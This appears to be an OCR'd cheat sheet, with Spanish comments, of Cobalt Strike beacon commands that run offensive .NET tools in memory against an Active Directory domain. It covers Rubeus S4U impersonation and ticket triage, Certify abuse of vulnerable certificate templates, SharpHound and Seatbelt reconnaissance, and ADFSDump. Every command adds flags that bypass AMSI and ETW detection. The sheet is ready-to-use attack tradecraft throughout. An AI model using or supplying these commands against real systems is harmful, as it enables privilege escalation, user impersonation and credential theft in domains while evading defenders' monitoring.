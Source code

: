 # Solicitar S4U2Self y S4U2Proxy
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs "s4u /user:username /impersonateuser:targetuser /msdsspn:cifs/server.domain" --amsi --etw

# ----------- Certify -----------
# Enumerar plantillas de certificados en el dominio
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Certify\Certify\bin\Release\Certify.exe --assemblyargs "find /domain:domain.local" --amsi --etw

# Solicitar un certificado basado en plantillas vulnerables
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Certify\Certify\bin\Release\Certify.exe --assemblyargs "request /template:vulnerableTemplate /altname:user@domain.local" --amsi --etw

# Realizar abuso de privilegios en servicios de certificados
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Certify\Certify\bin\Release\Certify.exe --assemblyargs "abuse /ca:domain-CA /template:vulnerableTemplate" --amsi --etw

# ----------- SharpHound -----------
# Recolectar datos para BloodHound
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\SharpHound\SharpHound.exe --assemblyargs "-c All -d domain.local -v" --amsi --etw

# ----------- Seatbelt -----------
# Enumerar configuraciones de seguridad del sistema
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Seatbelt\Seatbelt.exe --assemblyargs "all" --amsi --etw

# ----------- GhostPack ADFS -----------
# Enumerar ADFS endpoints
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\ADFSDump\ADFSDump.exe --assemblyargs "dump" --amsi --etw

# ----------- Opciones avanzadas -----------
# Cambiar el AppDomain y el Pipe
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs triage --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337
